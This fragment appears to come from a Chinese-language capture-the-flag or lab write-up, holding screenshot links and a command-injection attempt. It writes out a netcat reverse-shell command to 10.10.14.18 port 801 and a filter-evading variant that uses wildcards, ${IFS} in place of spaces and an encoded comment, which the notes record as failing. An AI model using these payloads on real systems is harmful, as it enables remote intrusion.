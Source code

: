 ![19](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/11-18-10/19.PNG)

![20](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/11-18-10/20.PNG)
成功

---

/bin/nc.traditional -e 10.10.14.18 801

`/bin/n?.???????????${IFS}-e${IFS}10.10.14.18${IFS}801%20%23`

结果
/bin/n?.??????????? not found

---